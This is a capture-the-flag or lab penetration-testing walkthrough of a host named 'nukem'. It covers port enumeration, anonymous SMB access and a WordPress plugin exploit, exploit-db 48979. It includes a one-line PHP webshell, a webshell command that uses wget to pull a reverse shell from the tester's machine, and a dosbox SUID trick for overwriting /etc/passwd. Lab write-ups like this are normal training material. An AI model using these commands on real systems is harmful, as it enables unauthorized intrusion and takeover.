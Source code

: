 ### Enumeration
```
IP=192.168.247.105
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,3306,5000,13000,36445 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.3 (protocol 2.0)
- 80
	- Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
- 3306
	- mysql
- 5000
	- Werkzeug httpd 1.0.1 (Python 3.8.5)
- 13000
	- nginx 1.18.0
- 36445
	- Samba smbd 4.6.2
	- Samba 4.12.6
### Foothold
- 36445
	- smbclient -N -L //$IP -p36445
		- anonymous login success
		- share
			- Commander
				- ![[Pasted image 20240712154944.png]]
				- downloaded files
				- chinook.db
					- employees tab, has emails, names
					- Seems like a music database
				- sever.py
					- flask api, sql connector
					- grabs items from the db
			- IPC$  -  Samba 4.12.6
	- nmap --script smb-vuln* -p135,139,445 $IP
- 3306
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP`
		- ERROR] Host '192.168.45.195' is not allowed to connect to this MariaDB server
- 80
	- Default landing page
		- ![[Pasted image 20240712155107.png]]
	- Versions
		- `News Vibrant 1.0.12 | Theme: news-vibrant by [CodeVibrant](http://codevibrant.com/).`
		- WP 5.5.1
			- no found exploits
			- sudo wpscan --url http://192.168.247.105 --enumerate --api-token API
				- http://192.168.247.105/wp-content/uploads/
				- WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
				- sqli
				- WordPress < 6.4.3 - Admin+ PHP File Upload
				- plug ins
					- simple-file-list 4.2.2
						- Unauthenticated Arbitrary File Upload RCE
						- exploit-db 48979
						- Put php webshell in payload `<?php system($_GET['cmd']); ?>`
						- python 48979.py http://192.168.247.105
						- ![[Pasted image 20240712161741.png]]
						- `http://192.168.247.105/wp-content/uploads/simple-file-list/3705.php?cmd=wget%20http://192.168.45.195:80/php-reverse-shell.php`
						- Upload php reverse shell
							- ![[Pasted image 20240712162441.png]]
						- `192.168.247.105/wp-content/uploads/simple-file-list/php-reverse-shell.php.1`
						- launched the php rev shell
						- ![[Pasted image 20240712162553.png]]
					- tutor 1.5.3
						- sqli
						- Authenticated Local File Inclusion
				- users
					- admin
	- Created new account
		- In top right corner the manage account brings us to http://192.168.247.105/wp-admin/profile.php
		- Then we can click wp icon top left
			- WP 5.5.1
	- Directory Brute force
		- dirsearch -u http://$IP
			- `/wp-admin  /wp-content  /wordpress  /readme.html  /license.txt  /wp-content/plugins/akismet/akismet.php`
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 5000
	- Default landing page
		- ![[Pasted image 20240712155212.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 13000
	- Default landing page
		- ![[Pasted image 20240712155220.png]]
		- Login: http://192.168.247.105:13000/?username=admin%27&pass=amdin
			- Put into url header
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- `/js  /css  /fonts  /images`
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
### PE
#### Linux
- http
	- id
		- uid=33(http) gid=33(http) groups=33(http)
	- sudo -l
		- needs password
	- uname -a
		- `Linux nukem 5.8.9-arch2-1 #1 SMP PREEMPT Sun, 13 Sep 2020 23:44:55 +0000 x86_64 GNU/Linux`
	- getcap -r / 2>/dev/null
		- ![[Pasted image 20240712162715.png]]
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- ![[Pasted image 20240712162722.png]]
			- Ran through VScode script  -  dosbox
				- /usr/bin/dosbox
				- `LFILE='\etc\passwd'
				- `DATA='root:x:0:0:root:/root:/bin/bash'
				- `/usr/bin/dosbox -c 'mount c /' -c "echo $DATA >c:$LFILE" -c exit
				- Adding to /etc/passwd does not work for root. Maybe we can as another user then do sudoers
					- same error for commander user
			- GTFObins
				- Allows files overwrite
				- `LFILE='\path\to\file_to_write'
				- `./dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
	- Users with console
		- commander
	- linpeas
### Credentials
### Lessons Learned